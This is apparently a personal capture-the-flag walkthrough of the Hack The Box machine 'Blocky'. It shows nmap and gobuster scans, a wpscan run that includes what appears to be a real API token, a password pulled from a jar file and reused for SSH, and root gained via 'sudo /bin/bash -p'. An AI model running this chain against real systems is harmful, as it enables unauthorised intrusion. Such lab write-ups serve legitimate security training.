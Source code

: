 # Summary



## about target

tip:  10.129.33.152

hostname:  Blocky

Difficulty:  Easy



## about attack

+ wpscan, try params detect mode if no plugins found by default.
+ jar file reverse and found interesting things, try all the login with the username and password you found.





**attack note**

```bash
Blocky / 10.129.33.152

PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp?
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d62b99b4d5e753ce2bfcb5d79d79fba2 (RSA)
|   256 5d7f389570c9beac67a01e86e7978403 (ECDSA)
|_  256 09d5c204951a90ef87562597df837067 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://blocky.htb
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)

----interesting 
root:8YsqfCTnvxAUeduzjNSXe22, from web file blockcore.jar


---- Enum

-- ftp 
ProFTPD 1.3.5a Server (Debian) 

-- http
php site, wordpress
# dirscan 
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip/ -o gobuster.log  -x php

#wpscan 
## --plugins-detection passive/aggressive/mixed
## --wp-content-dir 
## --wp-plugins-dir 
wpscan --url http://blocky.htb --plugins-detection aggressive -- wp-content-dir wp-content --api-token eHmdOsNYBMMTmCxORyxOKVa5MZnegduDGRkGemtaFgo -e ap,at,u,cb

found user notch

---- exploit

ssh with notch:8YsqfCTnvxAUeduzjNSXe22

---- root

sudo -l 

sudo /bin/bash -p

```







# Enum

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```



Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp?
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d62b99b4d5e753ce2bfcb5d79d79fba2 (RSA)
|   256 5d7f389570c9beac67a01e86e7978403 (ECDSA)
|_  256 09d5c204951a90ef87562597df837067 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://blocky.htb
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
```



## http enum 

dir scan,  wordpress dir.

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip/ -o gobuster.log  -x php

```



wpscan ,found user notch

```bash
#wpscan 
## --plugins-detection passive/aggressive/mixed
## --wp-content-dir 
## --wp-plugins-dir 
wpscan --url http://blocky.htb --plugins-detection aggressive -- wp-content-dir wp-content --api-token eHmdOsNYBMMTmCxORyxOKVa5MZnegduDGRkGemtaFgo -e ap,at,u,cb
```



/plugins, found jar file.

reverse with jd-gui, found password.  or cat works too.

![image-20221117234112024](./images/image-20221117234112024.png)





# Exploit

ssh with notch:8YsqfCTnvxAUeduzjNSXe22

got shell.

# Privesc



## loca enum

sudo -l, no limit.

![image-20221118000118552](./images/image-20221118000118552.png)

## system

```bash
sudo /bin/bash -p
```

rooted.



## proof

```bash


```



